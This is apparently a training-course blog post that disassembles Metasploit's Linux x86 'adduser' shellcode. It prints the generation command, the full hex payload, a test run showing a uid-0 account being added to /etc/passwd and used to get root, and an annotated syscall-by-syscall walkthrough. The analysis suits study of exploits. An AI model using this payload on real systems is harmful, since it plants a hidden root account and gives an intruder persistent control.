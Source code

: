 ```yaml
---
title:  "[SLAE] Assignment 5 - Metasploit Shellcode analysis"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit Linux adduser shellcode analysis
This post is part of the 5th assignment of the SLAE course and will analyse the Metasploit _`linux/x86/adduser shellcode`_. First let's generate the shellcode: 
```bash
# msfpayload linux/x86/adduser USER=jsmith PASS=ok  C
```

This will generate a payload that will create a new -`root`_ user, with uid and gid equal to 0. 
```c
/*
 * linux/x86/adduser - 93 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, USER=jsmith, PASS=ok, SHELL=/bin/sh
 */
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73"
"\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d"
"\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e"
"\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01"
"\x58\xcd\x80";
```

To test it, I've integrated the shellcode into a C skeleton file and run against a Linux box: 
```bash
# cat /etc/passwd | grep jsmith
# ./shellcode
Shellcode Length:  40 bytes
# cat /etc/passwd | grep jsmith
jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh
# su jsmith
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see, the new root user was successfully created. Next I continued to disassemble it: 
```bash
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" |ndisasm -b 32 -
```
First the shellcode restores the privileges, in case the running process would have dropped them: 
```asm
00000000  31C9              xor ecx,ecx             ; Effective user id - 0
00000002  89CB              mov ebx,ecx             ; Real user id - 0
00000004  6A46              push byte +0x46         ; sys_setreuid16 syscall number
00000006  58                pop eax                 ; Sets real and effective user id
00000007  CD80              int 0x80                ; Fire the interrupt
```

Next, it will open the _`/etc/passwd`_ file. The flags for opening the file will be set to *`0x00000401: O_WRONLY|O_APPEND`*. 

*__Note1__*: the mode for opening the file, which should have been in `EDX` register, is not specified because it is ignored for _`O_CREAT`_ flag not specified:
```asm
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; Prepare eax for sys_open syscall
0000000C  31C9              xor ecx,ecx             ; Set ecx to 0 
0000000E  51                push ecx                ; Push 0 to act as a null terminator
0000000F  6873737764        push dword 0x64777373   ; 'dwss'
00000014  682F2F7061        push dword 0x61702f2f   ; 'ap//'
00000019  682F657463        push dword 0x6374652f   ; 'cte/'
0000001E  89E3              mov ebx,esp             ; Filename: '/etc//passwd'
00000020  41                inc ecx  
```

*__Note2__*: the _`open`_ syscall and the parameters can also be easily viewed using strace program: 
```bash
# strace ./shellcode
[..]
open("/etc//passwd", O_WRONLY|O_APPEND) = 3 
```

The next part will write the _`jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n`_ string to it (username and encrypted password): 
```asm
00000025  93                xchg eax,ebx
00000026  E824000000        call dword 0x4f
; String starts  here -->
; jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n
0000002B  6A73              push byte +0x73
0000002D  6D                insd
0000002E  6974683A417A2E54  imul esi,[eax+ebp*2+0x3a],dword 0x542e7a41
00000036  4F                dec edi
00000037  53                push ebx
00000038  7267              jc 0xa1
0000003A  724D              jc 0x89
0000003C  36726F            ss jc 0xae
0000003F  3A30              cmp dh,[eax]
00000041  3A30              cmp dh,[eax]
00000043  3A3A              cmp bh,[edx]
00000045  2F                das
00000046  3A2F              cmp ch,[edi]
00000048  62696E            bound ebp,[ecx+0x6e]
0000004B  2F                das
0000004C  7368              jnc 0xb6
0000004E  0A. |--> String ends here
We then have to disassemble the instructions starting after the end of string (easily done in gdb): 
00000051  51                push ecx
00000052  FC                cld
00000053  6A04              push byte +0x4
00000055  58                pop eax         ; sys_write syscall
00000056  CD80              int 0x80
; write(3, "jsmith:Az.TOSrgrM6ro:0:0::/:/bin"..., 36) = 36
Finally the shellcode calls the exit function to cleanly finish execution: 
00000058  6A01              push byte +0x1
0000005A  58                pop eax         ; sys_exit syscall
0000005B  CD80              int 0x80
```

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

> This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
